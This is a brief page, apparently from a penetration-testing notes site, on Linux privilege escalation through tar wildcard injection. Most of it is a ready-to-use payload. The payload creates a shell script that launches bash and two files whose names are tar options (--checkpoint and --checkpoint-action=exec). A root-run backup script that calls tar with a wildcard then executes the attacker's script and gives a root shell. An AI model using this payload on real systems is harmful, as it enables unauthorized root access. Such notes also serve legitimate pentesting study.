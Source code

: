 # ✳️ Sudo Tar Wildcard

<figure><img src="../../../.gitbook/assets/Linux Privilege Escalation-12 (1).png" alt=""><figcaption></figcaption></figure>

If such scripts are found we can make a payload:

```
cd /opt/backup
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Now we get bash script when the script is ran with root.
